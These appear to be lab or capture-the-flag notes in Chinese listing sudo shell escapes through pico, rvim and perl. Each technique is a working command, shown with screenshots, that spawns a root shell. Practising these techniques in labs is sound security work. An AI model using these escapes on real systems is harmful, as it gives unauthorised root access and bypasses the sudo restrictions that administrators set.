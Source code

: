### pico(bob)

> Linux pico命令用于编辑文字文件。
>
> pico是个简单易用、以显示导向为主的文字编辑程序，它伴随着处理电子邮件和新闻组的程序pine而来。

#### shell1

```bash
pico
^R^X    # ctrl+R ctrl+X
reset; sh 1>&0 2>&0
```

![image-20240224234627591](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402250151428.png)

这里需要`sudo`一下：

```bash
sudo pico
^R^X    # ctrl+R ctrl+X
reset; sh 1>&0 2>&0
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402250151429.png" alt="image-20240224235127917" style="zoom: 67%;" />

#### shell2

```bash
sudo pico -s /bin/sh
/bin/sh
^T   # ctrl+T
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402250151430.png" alt="image-20240224234703997" style="zoom:50%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402250151431.png" alt="image-20240224234845566" style="zoom:50%;" />

### rvim(bob)

> 这需要 rvim 使用Python支持进行编译。前置：py3为Python3

```bash
sudo rvim -c ':python3 import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402250151432.png" alt="image-20240224235236310" style="zoom:50%;" />

### perl(bob)

```bash
sudo perl -e 'exec "/bin/sh";'
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402250151433.png" alt="image-20240224235437656" style="zoom:50%;" />
